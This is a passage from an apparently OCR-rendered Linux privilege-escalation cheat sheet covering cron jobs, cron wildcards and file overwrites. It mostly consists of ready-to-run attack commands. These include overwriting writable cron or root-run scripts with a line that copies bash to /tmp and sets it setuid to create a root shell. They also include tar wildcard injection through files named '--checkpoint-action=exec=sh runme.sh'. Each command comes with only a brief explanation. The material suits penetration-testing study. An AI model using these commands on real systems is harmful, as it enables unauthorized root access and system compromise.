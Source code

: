     cat /etc/crontab

    Explanation: System-wide cron jobs often run as root, and any scripts or commands executed by these jobs can be modified by an attacker to escalate privileges.

Exploiting Writable Cron Scripts:

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /path/to/writable/script: Modifies a cron script to create a root shell.

    bash

        echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /path/to/writable/script

        Explanation: If a cron job is configured to run a script or command that is writable by non-root users, attackers can modify it to execute malicious code.

Methodology and Tactics:
Cron jobs are a common source of privilege escalation vulnerabilities, especially if they are configured to run scripts or commands with elevated privileges that are writable by non-root users.
16. Cron Wildcards

Cron jobs that use wildcards can be exploited if the wildcard expansion is not properly handled, leading to arbitrary command execution.

    Understanding Cron Wildcards:
        cat /etc/crontab: Check for wildcard usage in cron jobs, such as tar commands that might be susceptible to wildcard injection.

        bash

    cat /etc/crontab

    Explanation: Wildcards in cron jobs can be exploited to execute arbitrary commands if the cron job expands the wildcard in a dangerous way, such as in a tar command.

Exploiting Wildcards:

    touch /home/user/--checkpoint=1 and touch /home/user/--checkpoint-action=exec=sh\ runme.sh: Injects commands using tar's checkpoint feature.

    bash

        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\ runme.sh

        Explanation: When the cron job runs and executes the tar command, it will also execute the injected commands, leading to privilege escalation.

Methodology and Tactics:
Cron wildcard exploits are a more advanced form of privilege escalation, exploiting the way shell commands handle wildcard expansions. This can be particularly effective in environments where cron jobs are configured with insufficient input sanitization.
17. File Overwrite

Certain files, if overwritten, can allow an attacker to execute arbitrary commands with elevated privileges.

    Overwriting Critical Files:
        echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh: Overwrites a script that is executed with root privileges.
